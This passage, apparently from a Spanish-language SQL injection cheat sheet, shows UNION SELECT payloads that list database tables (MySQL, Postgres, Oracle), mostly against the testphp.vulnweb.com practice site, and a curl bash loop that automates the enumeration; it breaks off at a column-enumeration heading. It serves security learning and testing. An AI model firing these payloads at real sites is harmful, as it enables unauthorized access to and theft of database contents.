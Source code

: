 ```http
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,table_name,3+from+information_schema.tables+limit+0,1-- -
```

Para descubrir cuantas tablas existen tenemos que ir jugando con el `limit`:

```http
#Tabla 1:
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1

#Tabla 2: 
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1

Tabla 3:
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1

...etc.
```

Dijimos que existian 8 tablas pero como no lo sabemos iremos propando y probando y cuando se realiza la siguiente consulta:

```sql
Tabla 9:
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 9,1
```

No nos mostrara ningun resultado y es ahi donde sabemos que ya no hay mas tablas.

Podemos automatizar este proceso con un script en bash:

```bash
for i in $(seq 1 200); do
    echo -n "Para el número $i: "
    curl --silent "http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,table_name,3,4,5+from+information_schema.tables+limit+$i,1--%20-"
done
```

De ahi podemos ir filtrado con grep lo que nos interese.

#### Obtener las tablas - Postgres

```bash
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

#### Obtener las tablas - Oracle

```bash
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

### Enumeracion de las columnas de una tabla especifica
